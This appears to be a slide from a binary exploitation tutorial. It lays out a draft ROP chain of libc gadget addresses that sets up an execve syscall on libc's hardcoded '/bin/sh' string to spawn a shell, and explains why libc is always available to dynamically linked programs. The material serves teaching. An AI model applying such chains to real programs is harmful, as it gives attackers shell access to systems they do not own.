

# Libc ROP chain
Below is a draft of ROP chain I’ve prepared from the gadgets pulled from libc.
Imagine them being executed sequentially, it is essentially our shell-spawning shellcode from earlier chapter done with different instructions.
0x7d1b2:	 xor edx, edx ; mov eax, edx ; ret
0x3f80b: 	pop rax ; ret
0x3b – execve syscall no.
0x28bb2: 	pop rdi ; ret
<libc /bin/sh address*>
0xfc77e: 	xor esi, esi ; syscall
*what’s with the libc address? Turns out libc library contains hardcoded string “/bin/sh”, which is extremely useful for us as we can just point to its’ address in execve syscall.

btw – libc is always mapped into program’s memory if dynamically linked (default behaviour)